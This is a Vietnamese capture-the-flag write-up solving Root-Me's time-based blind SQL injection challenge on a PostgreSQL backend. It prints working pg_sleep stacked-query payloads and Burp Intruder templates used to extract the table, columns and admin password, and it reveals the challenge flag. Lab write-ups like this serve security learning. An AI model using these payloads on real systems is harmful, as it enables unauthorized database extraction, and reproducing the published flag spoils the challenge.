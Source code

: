 # WRITE UP

**Challenge: [SQL Injection -- Time-based](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based)**

Về SQLi Time-based, đây là một loại SQLi Blind khi ta sử dụng thời gian res của req để dự đoán thông tin và BurpSuite sẽ hỗ trợ rất tốt về mảng này. Khi ta sử dụng một câu Query đúng, thời gian phản hồi sẽ chậm và ngược lại.

Trong website, ta có một tab là Memberlist, có query như sau:

*http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist&member=**\[x\]***

![Graphical user interface, application, website Description automatically generated](./media/image1.png){width="6.723824365704287in" height="2.3181386701662294in"}

Ở đây, ta có thể lợi dụng để thực hiện tiêm payload vào đằng sau nó và thực hiện blind. Thử blind với payload bằng nhiều version() database khác nhau:

![Graphical user interface, text Description automatically generated](./media/image2.png){width="6.716167979002624in" height="2.7661143919510063in"}

Payload: *3;select+case+when+(0=0)+then+pg_sleep(10)+else+pg_sleep(-1)+end\--*

Payload này sẽ khiến dtb res chậm hơn với pg_sleep() khi query đúng.

-   Server thuộc dạng Postgresql: [pg_sleep() - pgPedia - a PostgreSQL Encyclopedia](https://pgpedia.info/p/pg_sleep.html)

Từ đó, ta sẽ sử dụng Burp Intruder để thực hiện bruteforce table_name, column_name như các bài SQLi đã làm.

1.  **Tìm table_name**

Trước tiên, ta cần tìm kiếm độ dài của table:

Payload: ***3;select+case+when+((select+length(table_name)+from+information_schema.tables+limit+1)=\[length\])+then+pg_sleep(10)+else+pg_sleep(-1)+end---***

Đưa vào Intruder và bruteforce:

![Graphical user interface, application Description automatically generated](./media/image3.png){width="6.5in" height="2.8222222222222224in"}

Ở bảng kết quả, ta filter lại cột "Response Complete". Res nào có độ lớn cao nhất thì chắc hẳn đó là payload đúng.

-   length(table_name) == 5

Đã có table_name, ta tiến hành bruteforce table_name. Bỏ vào intruder:

*member=3;select+case+when+(substr((select+table_name+from+information_schema.tables+limit+1),**§1§**,1)=chr(**§§**))+then+pg_sleep(10)+else+pg_sleep(-1)+end\--*

![Graphical user interface, application Description automatically generated](./media/image4.png){width="6.498615485564304in" height="2.096153762029746in"}

Ghép lại ta được **table_name=users**

2.  **Tìm column_name**

Tương tự như table_name, ta tìm length(column_name) của cột đầu tiên:

![Graphical user interface, application Description automatically generated](./media/image5.png){width="6.499715660542432in" height="2.1666666666666665in"}

Kết quả trả về payload length(column_name) = 2. Ta có thể dự đoán nó có thể là 'id'. Kiểm chứng bằng Repeater:

-   Ký tự 'i':

![Graphical user interface, text Description automatically generated](./media/image6.png){width="6.201306867891514in" height="2.548102580927384in"}

-   Ký tự 'd':

![Graphical user interface, text, email Description automatically generated](./media/image7.png){width="6.5in" height="2.661111111111111in"}

-   Cả 2 response đều tốn 2,285 miliseconds (tương tự thời gian fuzz, khác với response thông thường \~ 200 -- 300 milisecond) column\[0\] == id

Để tìm được column tiếp theo, ta sử dụng offset để filter lại và thực hiện tương tự, bruteforce thôi:

![Graphical user interface, application Description automatically generated](./media/image8.png){width="6.5in" height="2.688888888888889in"}

-   length(column\[2\]) == 8

![Table Description automatically generated](./media/image9.png){width="6.5in" height="2.9604166666666667in"}

-   column_name\[1\] = username

Column\[2\], có length == 9:

![Graphical user interface, text Description automatically generated](./media/image10.png){width="6.5in" height="2.682638888888889in"}

Bruteforce được kết quả column_name\[2\] == firstname:

![Graphical user interface, text, application Description automatically generated](./media/image11.png){width="6.5in" height="3.33125in"}

Tương tự, column\[3\] có length == 8, và dễ dàng đoán được:

-   column_name\[3\] == lastname:

![Graphical user interface, text Description automatically generated](./media/image12.png){width="6.5in" height="2.3243055555555556in"}

![Graphical user interface, text Description automatically generated](./media/image13.png){width="6.5in" height="2.095138888888889in"}

Column\[4\] có length == 5. Suy đoán và thử được kết quả:

-   column_name\[4\] == email

![Graphical user interface, text, email Description automatically generated](./media/image14.png){width="6.5in" height="2.6631944444444446in"}

![Graphical user interface, text Description automatically generated](./media/image15.png){width="6.5in" height="2.3819444444444446in"}

column\[5\] có độ dài ký tự là length == 8:

![Graphical user interface, text Description automatically generated](./media/image16.png){width="6.5in" height="2.415277777777778in"}

Vì length ==8, ta thử kiểm chứng keyword = 'password' thì thấy trùng khớp:

![Graphical user interface, text, application Description automatically generated](./media/image17.png){width="6.5in" height="2.3847222222222224in"}

Như vậy, ta đã tìm được đúng cột password, giờ thì tìm password của admin. Admin có id=1, ta chỉ cần tìm kiếm với offset = 0 là sẽ ra.

![Graphical user interface, application Description automatically generated](./media/image18.png){width="6.5in" height="3.1395833333333334in"}

-   **length(password) == 13**

Sau hơn 1 ngày bruteforce với payload, ta được kết quả:

*member=3;select+case+when+(substr((select+password+from+users+limit+1+offset+0),**§§**,1)=chr(**§§**))+then+pg_sleep(10)+else+pg_sleep(-1)+end\--*

![Graphical user interface, application, table, Excel Description automatically generated](./media/image19.png){width="6.5in" height="3.0625in"}

Ta có được chuỗi ascii password: **84 33 109 51 66 64 115 51 68 83 81 76 33**

Convert to text: **T!m3B@s3DSQL!**

![A screenshot of a computer Description automatically generated](./media/image20.png){width="6.5in" height="3.515972222222222in"}

**Flag:** T!m3B@s3DSQL!
